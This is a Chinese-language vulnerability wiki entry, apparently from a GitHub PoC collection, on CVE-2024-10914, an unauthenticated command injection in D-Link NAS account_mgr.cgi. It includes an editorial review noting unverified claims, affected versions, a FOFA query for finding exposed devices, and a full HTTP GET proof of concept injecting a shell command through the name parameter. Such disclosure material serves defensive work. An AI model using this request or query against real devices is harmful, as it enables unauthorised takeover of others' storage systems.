


# D-Link NAS设备 account_mgr.cgi 未授权RCE漏洞(CVE-2024-10914)

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DNS NAS
- 本文讨论：CVE-2024-10914
- 版本、权限与配置前提：列DNS320/320LW/325/340L具体固件；cgi_user_add/name无认证
- 资料类型：短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 61000系统与4万独立IP混用无时间/方法，不可当确认漏洞资产数
- 在野已知缺来源；关注即将补丁建议未交代EOL
- 请求/结果图有但无原始披露链接

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 编号、版本、补丁和资产统计待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

# 漏洞描述

D-Link NAS 设备中发现一个关键漏洞（CVE-2024-10914），对全球 61,000 多个系统构成严重威胁。该漏洞是 `account_mgr.cgi` 脚本中的命令注入漏洞，允许远程攻击者通过特制的 HTTP GET 请求执行任意命令。此问题影响多个 D-Link NAS 型号，包括 DNS-320、DNS-320LW、DNS-325 和 DNS-340L，CVSSv4 得分为 9.2，表明严重程度较高。该漏洞主要影响 `account_mgr.cgi` 脚本的 `cgi_user_add` 命令中的 `name` 参数。由于输入验证过滤不充分，注入`name`参数的恶意命令可导致未经授权的命令执行。使攻击者无需身份验证即可访问。

# 影响版本

DNS-320 – 版本 1.00

DNS-320LW – 版本 1.01.0914.2012

DNS-325 – 版本 1.01 和 1.02

DNS-340L – 版本 1.08

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="D_Link-DNS-ShareCenter"

POC/EXP：

GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;ifconfig;%27 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

影响独立资产ip4w

# 修复方案

应用补丁和更新： 用户应下载并安装 D-Link 提供的任何固件更新。

限制网络访问： 作为临时措施，对 NAS 管理界面的网络访问应仅限于受信任的 IP 地址。

监控固件更新： 受影响的设备用户应密切关注 D-Link 即将提供的任何安全补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
